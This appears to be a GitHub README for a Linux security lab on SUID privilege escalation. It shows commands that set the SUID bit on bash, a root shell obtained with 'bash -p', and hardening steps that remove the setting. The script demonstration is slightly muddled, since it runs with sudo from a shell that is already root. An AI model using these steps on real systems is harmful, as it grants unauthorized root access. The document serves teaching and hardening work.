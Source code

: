# POC-TASKS
# 📌 Linux Security - Exploitation & Hardening (PoC)

This repository demonstrates **SUID misconfigurations** in Linux, including **exploitation and mitigation**.

---

## 🔹 **Task 4: SUID & Privilege Escalation**

This task demonstrates how **misconfigured SUID binaries** can be exploited for **privilege escalation** and how to **mitigate** such vulnerabilities.

---

## ✅ **Setup: Creating a Vulnerable SUID Environment**

### **1️⃣ Set SUID Bit on Bash (Dangerous!)**

```bash
# Grant SUID to Bash (Insecure!)
┌──(kali㉿kali)-[~]
└─$ sudo chmod u+s /bin/bash

# Verify SUID is set
┌──(kali㉿kali)-[~]
└─$ ls -l /bin/bash  
-rwsr-xr-x 1 root root 1298416 Oct 20 16:49 /bin/bash
```

### **2️⃣ Create a Root-Owned SUID Script**

```
# Create a root-owned script
┌──(kali㉿kali)-[~]
└─$ sudo nano /root/root_script.sh

# Paste the following inside the Text editor (nano)
(#!/bin/bash
echo "Running as: $(whoami)"
id)
# Save & exit, then make it executable

# Set SUID permission on the script
┌──(kali㉿kali)-[~]
└─$ sudo chmod 4755 /root/root_script.sh

# Verify permissions
┌──(kali㉿kali)-[~]
└─$ sudo ls -l /root/root_script.sh     
-rwsr-xr-x 1 root root 44 Mar 19 18:30 /root/root_script.sh
```

### **3️⃣Exploitation: Gaining Root Access**

```
## Find SUID binaries
┌──(kali㉿kali)-[~]
└─$ find / -perm -4000 2>/dev/null
/usr/lib/chromium/chrome-sandbox
/usr/lib/openssh/ssh-keysign
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap .......

## Exploit SUID on Bash to Get Root Privileges
# Run Bash with SUID privilege
┌──(kali㉿kali)-[~]
└─$ /bin/bash -p

# Verify root access
┌──(kali㉿kali)-[~]
└─$ /bin/bash -p
bash-5.2# whoami
root

## Execute root owned script
bash-5.2# sudo /root/root_script.sh
Running as: root
uid=0(root) gid=0(root) groups=0(root)
```

### **4️⃣Mitigation: Fixing the Security Issues**
```
# Remove SUID from Bash
bash-5.2# sudo chmod -s /bin/bash

# Verify SUID is removed
bash-5.2# ls -l /bin/bash
-rwxr-xr-x 1 root root 1298416 Oct 20 16:49 /bin/bash

# Change ownership and restrict access
bash-5.2# sudo chown root:root /root/root_script.sh
bash-5.2# sudo chmod 700 /root/root_script.sh

# Verify permissions
bash-5.2# ls -l /root/root_script.sh
-rwx------ 1 root root 44 Mar 19 18:30 /root/root_script.sh
```
### **📌 Task 4 - Summary**  

| **Step**              | **Action**                                         | **Command**                                  |
|----------------------|-------------------------------------------------|---------------------------------------------|
| 🔹 **Setup**          | Set the SUID bit on `/bin/bash`                   | `sudo chmod u+s /bin/bash` |
|                      | Create a script running with root privileges       | `echo -e '#!/bin/bash\necho "Running as: $(whoami)"' | sudo tee /root/root_script.sh` |
|                      | Set SUID permission on the script                  | `sudo chmod 4755 /root/root_script.sh` |
|                      | Verify permissions                                 | `ls -l /bin/bash /root/root_script.sh` |
| 🔹 **Exploitation**   | Find SUID binaries                                | `find / -perm -4000 2>/dev/null` |
|                      | Exploit SUID on Bash to get root                   | `/bin/bash -p` |
|                      | Verify root access                                 | `whoami` |
|                      | Execute the root-owned script                      | `/root/root_script.sh` |
| 🔹 **Mitigation**     | Remove SUID from Bash                             | `sudo chmod -s /bin/bash` |
|                      | Restrict script execution to root only            | `sudo chmod 700 /root/root_script.sh` |
|                      | Verify permissions after mitigation                | `ls -l /bin/bash /root/root_script.sh` |

### ***************************************************THE END***************************************************
